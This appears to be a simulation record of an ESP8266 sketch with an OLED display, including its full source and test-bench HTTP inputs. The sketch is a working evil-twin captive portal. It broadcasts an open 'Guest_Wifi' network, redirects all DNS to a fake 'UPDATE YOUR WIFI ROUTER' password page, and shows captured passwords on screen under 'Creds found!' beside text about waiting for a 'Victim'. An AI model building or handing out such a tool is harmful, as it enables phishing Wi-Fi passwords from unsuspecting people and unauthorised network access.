
The sketch below on a simulated ESP8266 (NodeMCU). Parts: 128×64 one-colour display. The test bench sets the inputs (shaded band). What the sketch prints to the serial monitor is not drawn.

Above: at 2.7 s.
2.8 s: HTTP request GET /update?passwd=1 received
At 3.8 s:

4.3 s: HTTP request GET /update?passwd=0 received
At 4.9 s:

Timing chart, 0 to 7.3 s (numbered marks = the images above; inputs shaded):


The sketch:

WiFiPortal.ino
```cpp
#include <ESP8266WiFi.h>
#include "SH1106Wire.h"
#include <WiFiClient.h>
#include <ESP8266WebServer.h>
#include <DNSServer.h>
#include "Graphics.h"
SH1106Wire display(0x3C, SDA, SCL); // use builtin i2C
const char MAIN_page[] PROGMEM = R"=====(
<!DOCTYPE html>
<html>

<head>
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <style>
    body {
      font-family: 'Helvetica Neue', Helvetica, Arial, sans-serif;
      background-color: #f0f0f0;
      text-align: center;
      margin: 50px;
    }

    h3 {
      color: #007aff; /* iOS blue */
    }

    form {
      max-width: 300px;
      margin: 0 auto;
      background-color: #fff;
      padding: 20px;
      border-radius: 12px;
      box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
    }

    input[type=password] {
      width: 100%;
      padding: 12px;
      margin: 10px 0;
      box-sizing: border-box;
      color:#8e9191;
      background-color: #d4d4d4; /* iOS blue */
      border: 1px solid #a7aaab; /* iOS text input border color */
      border-radius: 10px;
    }

    input[type=submit] {
      background-color: #007aff; /* iOS blue */
      color: white;
      padding: 12px 20px;
      margin: 10px 0;
      border: none;
      border-radius: 8px;
      font-weight: bold; /* Add bold weight to the font */
      cursor: pointer;
    }

    input[type=submit]:hover {
      background-color: #0056b3; /* Slightly darker blue on hover */
    }
  </style>
</head>

<body>
  <h3>UPDATE YOUR WIFI ROUTER</h3>
  <form action="/update">
    Please Authorize to continue:<br>
    <input type="password" name="passwd" placeholder="PASSWORD">
    <br>
    <input type="submit" value="Submit">
  </form>
</body>

</html>
)=====";


const byte DNS_PORT = 53;
IPAddress apIP(192, 168, 4, 1);
String ipString = apIP.toString();
String displayIP = "IP: " + ipString;

DNSServer dnsServer;
ESP8266WebServer server(80);

//ip on browser routine
void handleRoot() {
 String s = MAIN_page; //Read HTML contents
 server.send(200, "text/html", s); //Send web page
}
//submit button routine
void handleForm() {
 String passwd = server.arg("passwd");
 display.clear();
 display.drawXbm(4,0,128,64,high_signal_bits);
 display.drawLine(0, 54, 128, 54);
 display.drawLine(0, 53, 128, 53);
 display.drawString(0,10,"Creds found!");
 display.drawString(0,20,passwd);
 display.drawString(0,54,"CAPTIVE PORTAL");
 display.display();
 Serial.println(passwd);
 //String s = "<a href='/'> Go Back </a>";
 //server.send(200, "text/html", s); //Send web page
}
//SETUP
void setup(void){

  Serial.begin(9600);
    // add to menu interface init
  const char *ssid = "Guest_Wifi";
  const char *password = NULL;
  display.init();
  display.flipScreenVertically();
  display.setTextAlignment(TEXT_ALIGN_LEFT);
  display.setFont(DejaVu_Sans_Mono_10);
  display.drawXbm(0,0,128,64,invader_bits);
  display.display();
  delay(1500);
  display.clear(); display.display();
  display.drawString(0,10,"Waitng for");
  display.drawString(0,20,"Victim on");
  display.drawString(0,30,ssid);
  display.drawString(0,40,ipString);

  display.drawXbm(0,0,128,64,invader_attack_bits);
  display.drawLine(0, 54, 128, 54);
  display.drawLine(0, 53, 128, 53);
  display.drawString(0,54,"CAPTIVE PORTAL");
  display.display();
  WiFi.mode(WIFI_AP);

  WiFi.softAPConfig(apIP, apIP , IPAddress(255, 255, 255, 0));

  WiFi.softAP(ssid, password);
  Serial.println("");

  dnsServer.start(53, "*", IPAddress(192, 168, 4, 1));
  server.on("/", handleRoot);
  server.on("/update", handleForm);
  server.onNotFound(handleRoot);
  server.begin();
  Serial.println("HTTP server started");
}

void loop(void){
  dnsServer.processNextRequest();
  server.handleClient();          //Handle client requests
}
```

Source omitted: Graphics.h (data table, 89378 bytes)

Measured:
- after the input at 2.8 s, the display: changes at once (image 1)
- after the input at 4.3 s, the display: changes at once (image 2)
